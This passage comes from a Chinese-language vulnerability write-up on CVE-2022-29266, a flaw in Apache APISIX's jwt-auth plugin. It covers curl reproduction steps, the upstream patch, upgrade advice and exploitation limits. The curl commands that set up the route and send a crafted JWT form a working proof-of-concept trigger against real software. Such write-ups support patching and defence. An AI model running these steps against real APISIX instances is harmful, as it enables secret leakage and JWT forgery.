 创建 Route 对象，并开启 jwt-auth 插件

```shell
curl http://127.0.0.1:9080/apisix/admin/routes/1 -H 'X-API-KEY: edd1c9f034335f136f87ad84b625c8f1' -X PUT -d '
{
"methods": ["GET"],
"uri": "/index.html",
"plugins": {
"jwt-auth": {}
},
"upstream": {
"type": "roundrobin",
"nodes": {
"0.0.0.0:80": 1
}
}
}'
```

触发漏洞

```shell
curl http://127.0.0.1:9080/index.html?jwt=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJycy1rZXkifQ.mF27BBWlXPb3fTiFufhcL3K9y99b8kioMmp7eMwRhB1kZjK62aJ_R6SB0A_Kmym8a7U2S3zYLue9mkD4FGGmhwmkmUGppjZdtwfxrZc7JvvdpJbihNGxdfn9ywUspr6DX831e29VAy1DnLT6cU8do_9MFklxrRbhTVpDOsOADEhh6Q5zdTKPz3h5pKHSQYO4y5Xd0bmRM7TqRvhfIRchmvroaJBQjP6TrDrN_x2elRpPsuabYmCNH_G7m6x5ouf0bqoOkOmsk3alJ6zNZFDY6-aTS4vDD8SDlSbAXkCh5DN-C10YQ6ZYWUGmcbap7hQhaIVJRlZRtaXMFbmabLwhgg -i
```

<img width="1000" src="/img/1651304251.png">

可以看到，这里并没有返回刚才设置的 secret 值，而是返回了 not enough data，即 err 的信息，这表明此时 cert 的值已经不为 nil 了，再次证明了上面的分析。

## 漏洞代码修复

观察 APISIX 的漏洞修复信息，可以看到对 jwt-auth.lua 文件的第 364 和 395 行进行了修改，修复信息地址：https://github.com/apache/apisix/commit/61a48a2524a86f2fada90e8196e147538842db89

<img width="1000" src="/img/1651304278.png">

这里是将原来的直接返回报错原因改成了返回 JWT token invalid 和 JWT token verify failed 的文本信息。

## 修复方案

- 升级至 Apache APISIX 2.13.1 及以上版本
- 安装补丁包，补丁包地址详见：https://apisix.apache.org/zh/blog/2022/04/20/cve-2022-29266

## 总结

这个漏洞最终造成的风险是 JWT 伪造，但前提是需要对方的 APISIX 开启了 jwt-auth 插件才行，并且如果有细心的读者可能会发现，当我们构造 RS256 算法的 JWT 时，需要先知道目标 APISIX consumer 对象的 key 值，因此这个漏洞利用起来还是有一定限制的。

这篇文章也已经同步到了 T Wiki 云安全知识文库中，文库地址：[wiki.teamssix.com](https://wiki.teamssix.com/)，文库中都是云安全相关的文章，并且有很多来自大家共同贡献的云安全资源，也非常欢迎你一起来补充 T Wiki 云安全知识文库。
